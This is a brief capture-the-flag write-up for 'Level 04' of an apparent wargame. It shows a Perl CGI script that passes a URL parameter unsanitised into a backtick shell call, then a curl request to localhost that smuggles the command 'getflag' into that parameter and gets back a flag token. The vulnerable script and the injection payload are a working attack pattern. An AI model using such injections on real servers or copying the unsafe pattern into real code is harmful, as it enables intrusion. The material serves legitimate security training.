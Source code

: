 # Level 04

## step 1 : analyze level04.pl
```
$ cat ./level04.pl
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

## step 2 : shell injection
```
$ curl localhost:4747/?x=\`getflag\`
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```
